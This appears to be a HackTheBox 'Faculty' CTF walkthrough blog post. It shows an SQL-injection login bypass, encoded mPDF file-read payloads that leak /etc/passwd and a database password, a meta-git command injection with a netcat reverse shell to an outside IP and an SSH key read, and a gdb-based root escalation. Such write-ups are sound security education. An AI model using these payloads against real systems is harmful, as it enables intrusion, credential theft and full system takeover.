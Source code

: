 ```yaml
---
title: HTB | Faculty
author: Zeropio
date: 2022-08-29
categories: [Pentesting, HackTheBox]
tags: [htb, linux, medium, machines]
permalink: /pentesting/htb/machines/faculty
---
```


![HTB Img](/assets/img/hackthebox/card/Faculty.png)

# Fingerprint

The nmap show:

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e9:41:8c:e5:54:4d:6f:14:98:76:16:e7:29:2d:02:16 (RSA)
|   256 43:75:10:3e:cb:78:e9:52:0e:eb:cf:7f:fd:f6:6d:3d (ECDSA)
|_  256 c1:1c:af:76:2b:56:e8:b3:b8:8a:e9:69:73:7b:e6:f5 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://faculty.htb
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

The web redirect us to `/login.php`, asking for a ID. Testing some IDs (1,2,3…) we didn’t find anything. Trying to intercept the request with burp we see in the request a new page:

```
POST /admin/ajax.php?action=login_faculty HTTP/1.1
```

# Foothold

We see in that a page a login, easily bypassed with `' or '1'='1' #`.

We can download some of the pages as a pdf. Doing so will show us a new directory in the URL:

![Untitled](/assets/img/hackthebox/labs/faculty/Untitled.png)

We can search by **mpdf**, finding a vulnerabilty [here](https://github.com/mpdf/mpdf/issues/356). We can intercept the Burp request when creating a payload. We can see that it is url encoded two times and then base64 encode. We can use the same PoC as the vulnerability:

```html
<annotation file="/etc/passwd" content="/etc/passwd" icon="Graph" title="Attached File: /etc/passwd" pos-x="195" />
```

And encoded it as the same way:

```
JTI1M0Nhbm5vdGF0aW9uJTI1MjBmaWxlPSUyNTIyL2V0Yy9wYXNzd2QlMjUyMiUyNTIwY29udGVudD0lMjUyMi9ldGMvcGFzc3dkJTI1MjIlMjUyMGljb249JTI1MjJHcmFwaCUyNTIyJTI1MjB0aXRsZT0lMjUyMkF0dGFjaGVkJTI1MjBGaWxlOiUyNTIwL2V0Yy9wYXNzd2QlMjUyMiUyNTIwcG9zLXg9JTI1MjIxOTUlMjUyMiUyNTIwLyUyNTNF
```

In the attachment part of the pdf we can find the **passwd** file. We can see there two users with shell (apart from the root):

```
gbyolo:x:1000:1000:gbyolo:/home/gbyolo:/bin/bash
developer:x:1001:1002:,,,:/home/developer:/bin/bash
```

Trying to get the RSA of the users as:

```html
<annotation file="/home/developer/.ssh/id_rsa" content="/home/developer/.ssh/id_rsa"  icon="Graph" title="Attached File: /home/developer/.ssh/id_rsa" pos-x="195" />
```

Lead to an error generating the pdf.

Moving to the first page, we can see now some IDs. Loging with them redirect us to the schedule of each user. But while in the url we are in `faculty.htb/index.php`, Burp get the sites as a request to `/admin/ajax.php?action=get_schecdule` . If we go to that page without being loging, we can see an error.

![Untitled](/assets/img/hackthebox/labs/faculty/Untitled%201.png)

We can get this file with:

```html
<annotation file=" /var/www/scheduling/admin/admin_class.php" content=" /var/www/scheduling/admin/admin_class.php" icon="Graph" title="Attached File:  /var/www/scheduling/admin/admin_class.php" pos-x="195" />
```

Encoded as:

```
JTI1M0Nhbm5vdGF0aW9uJTI1MjBmaWxlPSUyNTIyJTI1MjAvdmFyL3d3dy9zY2hlZHVsaW5nL2FkbWluL2FkbWluX2NsYXNzLnBocCUyNTIyJTI1MjBjb250ZW50PSUyNTIyJTI1MjAvdmFyL3d3dy9zY2hlZHVsaW5nL2FkbWluL2FkbWluX2NsYXNzLnBocCUyNTIyJTI1MjBpY29uPSUyNTIyR3JhcGglMjUyMiUyNTIwdGl0bGU9JTI1MjJBdHRhY2hlZCUyNTIwRmlsZTolMjUyMCUyNTIwL3Zhci93d3cvc2NoZWR1bGluZy9hZG1pbi9hZG1pbl9jbGFzcy5waHAlMjUyMiUyNTIwcG9zLXg9JTI1MjIxOTUlMjUyMiUyNTIwLyUyNTNF
```

In this file we can see an include to **db_connect.php**. let’s get it:

```html
<annotation file=" /var/www/scheduling/admin/db_connect.php" content=" /var/www/scheduling/admin/db_connect.php" icon="Graph" title="Attached File:  /var/www/scheduling/admin/db_connect.php" pos-x="195" />
```

Encoded as:

```
JTI1M0Nhbm5vdGF0aW9uJTI1MjBmaWxlPSUyNTIyJTI1MjAvdmFyL3d3dy9zY2hlZHVsaW5nL2FkbWluL2RiX2Nvbm5lY3QucGhwJTI1MjIlMjUyMGNvbnRlbnQ9JTI1MjIlMjUyMC92YXIvd3d3L3NjaGVkdWxpbmcvYWRtaW4vZGJfY29ubmVjdC5waHAlMjUyMiUyNTIwaWNvbj0lMjUyMkdyYXBoJTI1MjIlMjUyMHRpdGxlPSUyNTIyQXR0YWNoZWQlMjUyMEZpbGU6JTI1MjAlMjUyMC92YXIvd3d3L3NjaGVkdWxpbmcvYWRtaW4vZGJfY29ubmVjdC5waHAlMjUyMiUyNTIwcG9zLXg9JTI1MjIxOTUlMjUyMiUyNTIwLyUyNTNF
```

There we can see some credentials, but we don’t have the user.

```php
<?php 

$conn= new mysqli('localhost','sched','Co.met06aci.dly53ro.per','scheduling_db')or die("Could not connect to mysql".mysqli_error($con));
```

We can try using them with SSH and the other two users we have. With gbyolo the credentials are valid.

# Privilege Escalation

We can use sudo with this user. Thanks to that we can see that we can run a command as developer:

```console
gbyolo@faculty:~$ sudo -l
[sudo] password for gbyolo: 
Matching Defaults entries for gbyolo on faculty:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User gbyolo may run the following commands on faculty:
    (developer) /usr/local/bin/meta-git
```

This report in [HackerOne](https://hackerone.com/reports/728040) told us about a vulnerability in meta-git, we can try doing it:

```console
gbyolo@faculty:~$ sudo -u developer meta-git clone 'poc | whoami'
	meta git cloning into 'poc | whoami' at poc | whoami
	
	poc | whoami:
	poc | whoami: command 'git clone poc | whoami poc | whoami' exited with error: Error: spawnSync /bin/sh EACCES
```

At first we got an error. That’s why developer doesn’t have access to our home. Let’s do it from a path that both accounts can get:

```console
gbyolo@faculty:/$ sudo -u developer meta-git clone 'test | whoami'
	meta git cloning into 'test | whoami' at test | whoami
	
	test | whoami:
	developer
	fatal: repository 'test' does not exist
	whoami: extra operand ‘test’
	Try 'whoami --help' for more information.
	test | whoami ✓
```

So we can execute code as developer. Trying a reverse shell result in failure:

```console
gbyolo@faculty:/$ sudo -u developer meta-git clone 'test | nc -e sh 10.10.16.44 443'
```

Let’s try getting the RSA:

```console
gbyolo@faculty:/$ sudo -u developer meta-git clone 'poc | cat ~/.ssh/id_rsa'
```

And we got it. We can now connect as developer, but where are not root yet. Using **linpeas** we can see some attacks paths. We see that we have access to `gdb`. We can make gdb take a root process and then make it execute a shell.

Search a process the root is using with a shell, for example Python:

```console
developer@faculty:~$ ps faux | grep ^root | grep python3
```

Then attach gdb to that process:

```console
developer@faculty:~$ gdb -p 3154
(gdb) call (void)system("chmod u+s /bin/bash")
[Detaching after vfork from child process 27552]
(gdb) quit
```

Now execute the shell:

```console
developer@faculty:~$ bash -p
bash-5.0# whoami
root
```
